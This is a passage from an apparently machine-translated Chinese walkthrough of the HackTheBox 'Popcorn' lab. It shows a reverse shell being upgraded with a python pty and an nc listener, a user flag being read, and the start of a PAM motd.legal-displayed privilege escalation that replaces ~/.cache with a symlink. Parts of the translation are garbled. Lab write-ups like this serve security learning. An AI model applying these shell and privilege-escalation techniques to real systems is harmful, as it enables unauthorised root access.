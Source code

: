 
我将升级外壳：

    www-data@popcorn:/var/www/torrent/upload$ python -c 'import pty;pty.spawn("bash")'
    www-data@popcorn:/var/www/torrent/upload$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    root@kali# stty raw -echo
    root@kali# fg
                                                           reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@popcorn:/var/www/torrent/upload$
    

这个用户实际上可以抓住：`user.txt`

    www-data@popcorn:/home/george$ cat user.txt 
    5e36a919************************
    

## Priv： www-data –>根

### 列举

环顾唯一的主目录，我会注意到文件：`/home/george``.cache/motd.legal-displayed`

    www-data@popcorn:/home/george$ find . -type f -ls
        76    4 -rw-r--r--   1 george   george        220 Mar 17  2017 ./.bash_logout
        82    4 -rw-r--r--   1 george   george       3180 Mar 17  2017 ./.bashrc
     42885  832 -rw-r--r--   1 george   george     848727 Mar 17  2017 ./torrenthoster.zip
     42883    0 -rw-r--r--   1 george   george          0 Mar 17  2017 ./.cache/motd.legal-displayed
     42884    0 -rw-r--r--   1 george   george          0 Mar 17  2017 ./.sudo_as_admin_successful
      2210    4 -rw-r--r--   1 george   george         33 Mar 17  2017 ./user.txt
     43648    4 -rw-------   1 root     root           19 May  5  2017 ./.nano_history
     44232    4 -rw-------   1 root     root         1571 Mar 17  2017 ./.mysql_history
       499    4 -rw-------   1 root     root         2769 May  5  2017 ./.bash_history
       107    4 -rw-r--r--   1 george   george        675 Mar 17  2017 ./.profile
    

`motd.legal-displayed`.它目前是空的，但它引起了我的兴趣，因为这些类型的文件可能会导致代码执行，因为它们通常在新会话启动时执行。谷歌搜索“motd.legal显示的特权”返回了[一个漏洞利用数据库漏洞](https://www.exploit-db.com/exploits/14339)。

### 手动漏洞利用

#### 背景

上面的脚本实际上做得很好，而且非常光滑。我将在最后展示这一点。但我想了解这个漏洞。Web上没有大量详细的解释，但是通过阅读漏洞利用脚本，漏洞在于用户登录（调用PAM模块）时如何设置目录权限。我的反向外壳没有触发它，因为它不是登录名。但是我可以使用SSH通过编写密钥来登录。然后，漏洞利用的作用是删除目录，并将其替换为指向文件的符号链接。然后，在登录时，该文件将由我的用户拥有。`~/.cache``~/.cache`

#### 作为万维网数据

我无法删除乔治主目录中的目录，因为该文件归乔治所有，不可写：`~/.cache``motd.legal-displayed`

    www-data@popcorn:/home/george$ rm -rf .cache/
    rm: cannot remove `.cache/motd.legal-displayed': Permission denied
    www-data@popcorn:/home/george$ ls -l .cache/motd.legal-displayed 
    -rw-r--r-- 1 george george 0 Mar 17  2017 .cache/motd.legal-displayed
    